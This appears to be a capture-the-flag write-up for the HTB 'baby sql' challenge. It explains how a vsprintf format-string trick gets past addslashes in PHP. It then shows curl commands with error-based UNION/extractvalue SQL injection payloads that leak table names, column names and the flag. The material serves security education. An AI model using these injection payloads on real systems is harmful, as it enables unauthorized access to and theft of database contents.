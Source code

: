<h1 style="text-align:center;">baby sql</h1>
*I heard that *real_escape_string() functions protect you from malicious user input inside SQL statements, I hope you can't prove me wrong...*

## Source Code
Let's make sense of the source code.
```php
<?php require 'config.php'; # Include the config file

class db extends Connection {
    public function query($sql) { # Define a function called query with a parameter know as "$sql", this will be the query
        $args = func_get_args(); # We then assign both parameters passed to the func to the $args variable
        unset($args[0]); # We then remove the query string from the array, leaving an array with 'admin' in it.
        return parent::query(vsprintf($sql, $args)); # First, format the 'admin' array into the query, and then run it on the database.
    }
}

$db = new db();

if (isset($_POST['pass'])) { # If the pass post variable is set then
    $pass = addslashes($_POST['pass']); # Run the addslashes function on the pass parameter and assign it to a variable
    $db->query("SELECT * FROM users WHERE password=('$pass') AND username=('%s')", 'admin'); #Call the query function from the db class
} else {
    die(highlight_file(__FILE__,1)); # Show this sourcecode
} 
```

## The Bug
Let's start by looking into what addslashes() does:
![](../../img/Pasted%20image%2020230509114515.png)

So this is where the challenge starts, we need to break out of a string while also bypassing the addslashes function. Initially, I was looking for some sort of encoding that would allow me to input a `'` without addslashes catching it, although that seemed to be a dead end in the newer versions of PHP

The `vsprintf` function it runs before running the query on the databases. What does vsprintf do?
![](../../img/Pasted%20image%2020230509114909.png)

`vsprintf` takes an array, that mus be why the `'admin'` string is passed as an array, Now, we cant touch the `%s` seen later on in the query, that will be replaced with admin, however, we can control what will be placed into the `$pass` variable, and then run through the `vsprintf` function. Let's do some testing on our local machine.

We can start by making suer our function work:
```
php > echo vsprintf("Hello %s", ['admin'])
Hello admin
```

PHP seems to be trying to read the "a" as a variable name. How can we tell PHP to use it as a literal char, instead of a variable name? Escape it
```
php > echo vsprintf("Hello %s, my name is %1$\a",['admin']);
Hello admin, my name is a
```

Perfect, we see our "a" is interpreted as a string. And of course, special characters:
```
php > echo vsprintf("Hello %s, my name is %1$\'",['admin']);
Hello admin, my name is '
```

## Exploitation
We can send our test payload to the server. and see what we get in response
```
kali@kali:~$ curl -XPOST http://165.232.41.211:30934/ -d "pass=%1$\'"
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'admin')' at line 1
```

This SQL error tells us that we succesfully broke out of the thing, and this consequently caused a server-side error. From here onwards, it is a matter of leaking the table name, and colums, and then finally reading the flag, I will do this avoiding any more double/single quotes as it is additional complexity.

Our next step should be to enumate the number of colums. This can be done via a UNION SELECT statement. No error is good.
```
kali@kali:~$ curl -XPOST http://165.232.41.211:30934/ -d "pass=%1$\') UNION SELECT 1;#"
The used SELECT statements have a different number of columns
kali@kali:~$ curl -XPOST http://165.232.41.211:30934/ -d "pass=%1$\') UNION SELECT 1,2;#"
kali@kali:~$
```

Perfect, so it is 2 colums, now, we know that errors are enabled as we got our SQL error earlier on. We can now abuse verbose errors to leak information. I have another post on blind SQL injections, and one of the methods used in said post takes advantage of these errors. So we can take inspiration, and implement it into our new challenge's payload:
```
pass=%1$\') UNION SELECT 1,extractvalue(0x0a,concat(0x0a,([SQL QUERY HERE])))#
```

First, lets read our tables.
```
kali@kali:~$ curl -XPOST http://165.232.41.211:30934/ -d "pass=%1$\') UNION SELECT 1,extractvalue(0x0a,concat(0x0a,(SELECT table_name FROM information_schema.tables)))#"
Subquery returns more than 1 row
kali@kali:~$ curl -XPOST http://165.232.41.211:30934/ -d "pass=%1$\') UNION SELECT 1,extractvalue(0x0a,concat(0x0a,(SELECT group_concat(table_name) FROM information_schema.tables)))#"
XPATH syntax error: 'ALL_PLUGINS,APPLICABLE_ROLES...'
```

That works, now we need to refine. If we can get a hold of the db name, then we can select only the tables from said db. Let's abuse some more errors.
```
kali@kali:~$ curl -XPOST http://165.232.41.211:30934/ -d "pass=%1$\') UNION SELECT 1,extractvalue(0x0a,concat(0x0a,(SELECT group_concat(table_name) FROM asd)))#"
Table 'db_m412.asd' doesn't exist
```

When we try and select from a table that doesn't exist, we can see the database error exposes the name. Next we can use hex encoding, to avoid the need for single/doule quotes.
```
kali@kali:~$ curl -XPOST http://165.232.41.211:30934/ -d "pass=%1$\') UNION SELECT 1,extractvalue(0x0a,concat(0x0a,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema REGEXP 0x64625f6d343132)))#"
XPATH syntax error: 'totally_not_a_flag,users'
```

There is our table name, now let's see the columns
```
kali@kali:~$ curl -XPOST http://165.232.41.211:30934/ -d "pass=%1$\') UNION SELECT 1,extractvalue(0x0a,concat(0x0a,(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema REGEXP 0x64625f6d343132)))#"
XPATH syntax error: 'flag,username,password'
```

Finally, we can select our flag
```
kali@kali:~$ curl -XPOST http://165.232.41.211:30934/ -d "pass=%1$\') UNION SELECT 1,extractvalue(0x0a,concat(0x0a,(SELECT flag FROM totally_not_a_flag)))#"
XPATH syntax error: 'HTB{h0w_d1d_y0u_f1nd_m3?}' 
```
